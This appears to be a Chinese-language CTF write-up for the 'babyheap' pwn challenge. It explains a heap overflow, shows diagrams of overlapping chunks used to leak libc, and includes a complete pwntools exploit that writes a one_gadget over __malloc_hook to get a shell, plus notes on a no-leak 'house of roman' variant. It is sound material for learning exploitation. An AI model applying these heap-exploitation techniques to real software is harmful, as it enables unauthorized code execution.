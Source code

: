 ```yaml
---
title: 厦门邀请赛-babyheap
date: 2019-04-05 09:14:15
tags: 
---
```

不知道哪年的..在某ctf 平台上做到的 走了歪路. 那个歪路成了我出题的思路...捂脸... 可以泄露还是比较简单的
<!--more-->
# Binary
最近发现之后重现题目没有i64,idb之类的比较麻烦
以后一起放进去了
[binary][1]
# Analysis
```s
➜  Desktop checksec babyheap
[*] '/home/n132/Desktop/babyheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
其他没什么大问题主要是 `edit`里面存在任意 溢出
还有就是写数据的时候要填满输入的`size`
这个我本来以为是无法泄露的拿没有泄露的花了老大力气做了个1/4096....
后来打不通问了个朋友说可以泄露的回过去想了一下真的可以泄露...还比较简单...脑子不够用了
先说这里的泄露这题主要考的是泄露
# 思路
* 首先有一个UNsortedbin
* 利用heap溢出partial write做fastbin atck 指向unsortedbin内部
* 从unsorted bin 中区适当大小的chunk 来往overlaped chunk里面填fd bk
`·I·`
```s
-----------
|         |<-unsorted bin 
|         |
|         |
|         |
|         |
|         |
-----------
```
`·II·`
```s
-----------
|         |<-unsorted bin 
|         |
|||||||||||<=overlaped
|||||||||||<=overlaped
|         |
|         |
-----------
```
`·III·`
```s
-----------
|         |
|         |
|||||||||||<=overlaped<-unsorted bin 
|||||||||||<=overlaped
|         |
|         |
-----------
```
# EXP
```python
from pwn import *
def cmd(c):
	p.sendlineafter(">> ",str(c))
def add(size,data):
	cmd(1)
	p.sendline(str(size))
	p.send(data.ljust(size,'\x00'))
def edit(idx,data,size):
	cmd(2)
	p.sendline(str(idx))
	p.sendline(str(size))
	p.send(data.ljust(size,'\x00'))
def show(idx):
	cmd(3)
	p.sendline(str(idx))
def free(idx):
	cmd(4)
	p.sendline(str(idx))
#context.log_level='debug'
p=process("./babyheap",env={'LD_PRELOAD':"./libc-2.23.so"})
#p=remote("111.198.29.45",31578)
add(0x18,"A")#0
add(0x18,"A")#1
add(0x18,"A")#2
add(0x100,p64(0x21)*4)#3
add(0x18,"A")#4
free(3)
free(2)
free(1)
edit(0,"\x00"*0x18+p64(0x21)+"\x80",0x21)
add(0x18,"A")#1
add(0x18,"A")#2
add(0x1,"A")#3

show(2)
base=u64(p.read(8))-(0x7ffff7dd1b78-0x00007ffff7a0d000)
log.info(hex(base))
add(0xe8,'n132')#5
add(0x18,"A")#6
add(0x68,"B")#7
add(0x68,"C")#8
libc=ELF("./libc-2.23.so")
libc.address=base
add(0x68,p64(libc.symbols['__malloc_hook']-35))#9
free(8)
free(7)
edit(6,"\x00"*0x18+p64(0x71)+"\x90",0x21)

add(0x68,"A")
add(0x68,"A")
one=0xf0274
add(0x68,"\x00"*19+p64(one+base))
add(0x68,"whoami\n")
#gdb.attach(p)

p.interactive()
```

# 总结
多观察...多思考充分利用题目中的所有东西...
太菜了...

# NOLEAK
前提:
* 因为不泄露那就啥地址都不知道.
* 所以只能用partial write.
* 因为全保护所以只能搞hooks
思路:
* house of roman
* unsorted bin atk 往hook上写
* 两次fastbin控制到hook-0x13区域
TIP:
尝试前调整好心态.`heap FENGSHUI`很重要.

[1]: https://github.com/n132/Watermalon/tree/master/UNKNOW/babyheap/